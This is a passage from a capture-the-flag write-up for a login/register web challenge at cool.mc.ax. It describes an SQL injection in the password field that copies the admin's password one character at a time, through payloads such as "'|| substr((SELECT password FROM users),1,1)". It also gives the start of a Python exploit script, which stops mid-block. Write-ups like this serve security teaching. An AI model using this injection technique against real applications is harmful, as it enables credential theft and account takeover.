 
	init()


The website was a simple login+register function, and after looking at the source code, it was clear that in order to get the flag, I needed to log in as the admin user 'ginkoid'. The application uses a sqlite database to hold users. The usernames are only allowed to be alphanumeric, and the passwords can be composed of any characters, as long as they are shorter than 50 characters long. I was initially at a loss for what to do, as I couldn't find a way to create an error or time-based atack with only 50 characters. However, one of my teamates found that
it was possible to set a user's password to ginkoid's password using the following payload: `'|| (SELECT password FROM users)`. This gave me an idea. If I could set the entire password as a password, I could also use only one character of ginkoid's password using the following payload `'|| substr((SELECT password FROM users),1,1)`. After this was done, I could discern the password by trying to log in using every alphanumeric character, one at at a time, as the password. The letter or number that succeeded would be the letter/number that was in the password. I made a python to exploit this technique:

	import requests
	import numpy
	url2 = "https://cool.mc.ax/register"

	#payload2 = "username=dasdfasdf&password='||substr((SELECT+password+FROM+users),1,{}))--"
	headers2 = {
	  'Host': 'cool.mc.ax',
	  'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
	  'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
	  'Accept-Language': 'en-US,en;q=0.5',
	  'Accept-Encoding': 'gzip, deflate',
	  'Content-Type': 'application/x-www-form-urlencoded',
	  'Content-Length': '74',
	  'Origin': 'https://cool.mc.ax',
	  'Connection': 'close',
	  'Referer': 'https://cool.mc.ax/register',
	  'Upgrade-Insecure-Requests': '1'
	}
	'''
	import logging

	# These two lines enable debugging at httplib level (requests->urllib3->http.client)
	# You will see the REQUEST, including HEADERS and DATA, and RESPONSE with HEADERS but without DATA.
	# The only thing missing will be the response.body which is not logged.
	try:
	    import http.client as http_client
	except ImportError:
	    # Python 2
	    import httplib as http_client
	http_client.HTTPConnection.debuglevel = 1

